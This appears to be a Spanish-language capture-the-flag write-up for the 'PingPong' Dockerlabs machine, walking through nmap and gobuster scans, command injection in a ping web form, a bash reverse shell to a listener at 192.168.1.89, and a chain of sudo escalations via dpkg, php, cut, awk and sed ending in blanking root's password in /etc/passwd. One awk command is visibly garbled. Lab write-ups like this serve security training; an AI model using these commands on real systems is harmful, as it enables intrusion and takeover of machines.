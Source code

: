 ```yaml
---
title: PingPong Dockerlabs
image: /assets/img/Anexos/Pasted%20image%2020250329195808-1.png
categories: [CTF]
tags: [dockerlabs,hacking]
---
```

![](/assets/img/Anexos/Pasted%20image%2020250329195808-1.png)

## Reconocimiento
Comenzamos con un escaneo completo de `nmap` para sacar los puertos y versiones:
```shell
❯ nmap -sSCV --min-rate=5000 -Pn -n -p- 172.17.0.2 -oN nmap.txt
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-29 20:01 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000020s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp  open  ssl/http Apache httpd 2.4.58 ((Ubuntu))
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.58 (Ubuntu)
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US
| Not valid before: 2024-05-19T14:20:49
|_Not valid after:  2025-05-19T14:20:49
|_ssl-date: TLS randomness does not represent time
|_http-title: Apache2 Ubuntu Default Page: It works
5000/tcp open  http     Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Ping Test
MAC Address: AA:E9:FC:7E:83:56 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.46 seconds

```
Nmap nos reporta los puertos _80_, _443_ y _5000_:

Por el puerto _443(https)_ tenemos esta web que tiene el .html por defecto de apache por lo que voy a ejecutar `gobuster` para listar:
![](/assets/img/Anexos/Pasted%20image%2020250329200216-1.png)


```
❯ gobuster dir -u https://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html,bak -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 276]
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 315] [--> https://172.17.0.2/javascript/]
/machine.php          (Status: 200) [Size: 6989]
```
Rápidamente `gobuster` me reporta esta web donde poco podemos hacer.
![](/assets/img/Anexos/Pasted%20image%2020250329200325-1.png)

En cambio, por el puerto _5000_ tenemos esta web que parece que hace un `ping`:
![|896](/assets/img/Anexos/Pasted%20image%2020250329200410-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250329200447-1.png)

## Explotación
Pruebo **Command Injection** y es vulnerable:
![](/assets/img/Anexos/Pasted%20image%2020250329200525-1.png)
Entonces me lanzo una reverse shell:
```shell
bash -c "bash -i >& /dev/tcp/192.168.1.89/4444 0>&1"
```

![|894](/assets/img/Anexos/Pasted%20image%2020250329200626-1.png)

## Escalada 
Una vez dentro como el usuario **freddy** tenemos los siguientes usuarios en la máquina:
```shell
freddy@2d7edf097ede:~/Desktop$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
freddy:x:1001:1001::/home/freddy:/bin/bash
bobby:x:1002:1002::/home/bobby:/bin/bash
gladys:x:1003:1003::/home/gladys:/bin/bash
chocolatito:x:1004:1004::/home/chocolatito:/bin/bash
theboss:x:1005:1005::/home/theboss:/bin/bash
```
Como **freddy** podemos ejecutar `dpkg` como **bobby**:
```shell
freddy@2d7edf097ede:/opt$ sudo -l
Matching Defaults entries for freddy on 2d7edf097ede:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User freddy may run the following commands on 2d7edf097ede:
    (bobby) NOPASSWD: /usr/bin/dpkg
```
Para escalar ejecuto:
```shell
freddy@2d7edf097ede:/opt$ sudo -u bobby dpkg -l
```
Y luego pongo:
![](/assets/img/Anexos/Pasted%20image%2020250329201413-1.png)
Como **bobby** me vi obligado a mudar de shell ya que estaba teniendo muchos problemas para la próxima escalada:

![|923](/assets/img/Anexos/Pasted%20image%2020250329221321-1-1-1.png)

Como **bobby** podemos ejecutar `php` como **gladys**
```shell
bobby@2d7edf097ede:/opt$ sudo -l
Matching Defaults entries for bobby on 2d7edf097ede:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User bobby may run the following commands on 2d7edf097ede:
    (gladys) NOPASSWD: /usr/bin/php
```
Para la escalada ejecuto lo siguiente:
```shell
sudo -u gladys /usr/bin/php -r "system('/bin/sh');"
```

Ahora como **gladys** podemos ejecutar `cut` como **chocolatito**:
```shell
whoami
gladys
sudo -l
Matching Defaults entries for gladys on 2d7edf097ede:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User gladys may run the following commands on 2d7edf097ede:
    (chocolatito) NOPASSWD: /usr/bin/cut
```

Pronto vi que **chocolatito** tenia guardada su contraseña en _/opt_:
```shell
find / -user chocolatito 2> /dev/null
/opt/chocolatitocontraseña.txt
/home/chocolatito
```
Para poder leerla ejecute lo siguiente:
```shell
sudo -u chocolatito /usr/bin/cut -d "" -f 1 /opt/chocolatitocontraseña.txt
chocolatitopassword
```
Ahora como **chocolatito** podemos ejecutar `awk` como **theboss**:
```shell
chocolatito@2d7edf097ede:/home/freddy$ sudo -l
Matching Defaults entries for chocolatito on 2d7edf097ede:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolatito may run the following commands on 2d7edf097ede:
    (theboss) NOPASSWD: /usr/bin/awk
```

Para la escalada ejecuto:
```shell
chocolatito@2d7edf097ede:/home/freddy$ sudo -u theboss /usr/bin/awk 'BEGIN {system("/bin/s'BEGIN {system("/bin/sh")}'
id
uid=1005(theboss) gid=1005(theboss) groups=1005(theboss)
```

Por último y terminando, como **theboss** podemos ejecutar `sed` como **root**, por lo que podemos aprovecharnos de esto y quitar las "x" en el _/etc/passwd_ y así indicamos que los usuario no tienen contraseñas: 
```shell
sudo -l
Matching Defaults entries for theboss on 2d7edf097ede:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User theboss may run the following commands on 2d7edf097ede:
    (root) NOPASSWD: /usr/bin/sed
```
**Explicación del /etc/passwd**
```
### /etc/passwd sintaxis

mark:x:1001:1001:mark,,,:/home/mark:/bin/bash
[--] - [--] [--] [-----] [--------] [--------]
|    |   |    |     |         |        |
|    |   |    |     |         |        +-> 7. Login shell
|    |   |    |     |         +----------> 6. Home directory
|    |   |    |     +--------------------> 5. GECOS
|    |   |    +--------------------------> 4. GID
|    |   +-------------------------------> 3. UID
|    +-----------------------------------> 2. Password stored in /etc/shadow
+----------------------------------------> 1. Username

```

Quedaría así:
```
sudo sed "s/x//g" /etc/passwd     
root::0:0:root:/root:/bin/bash
daemon::1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin::2:2:bin:/bin:/usr/sbin/nologin
sys::3:3:sys:/dev:/usr/sbin/nologin
sync::4:65534:sync:/bin:/bin/sync
games::5:60:games:/usr/games:/usr/sbin/nologin
man::6:12:man:/var/cache/man:/usr/sbin/nologin
lp::7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail::8:8:mail:/var/mail:/usr/sbin/nologin
news::9:9:news:/var/spool/news:/usr/sbin/nologin
uucp::10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proy::13:13:proy:/bin:/usr/sbin/nologin
www-data::33:33:www-data:/var/www:/usr/sbin/nologin
backup::34:34:backup:/var/backups:/usr/sbin/nologin
list::38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc::39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt::42:65534::/noneistent:/usr/sbin/nologin
nobody::65534:65534:nobody:/noneistent:/usr/sbin/nologin
ubuntu::1000:1000:Ubuntu:/home/ubuntu:/bin/bash
freddy::1001:1001::/home/freddy:/bin/bash
bobby::1002:1002::/home/bobby:/bin/bash
gladys::1003:1003::/home/gladys:/bin/bash
chocolatito::1004:1004::/home/chocolatito:/bin/bash
theboss::1005:1005::/home/theboss:/bin/bash
```
Ejecutamos con el parámetro `-i` para que guarde los cambios y ahora nos podemos logear como **root** SIN proporcionar contraseña:
```
sudo sed -i "s/x//g" /etc/passwd  
su root
root@2d7edf097ede:/home/freddy# 
```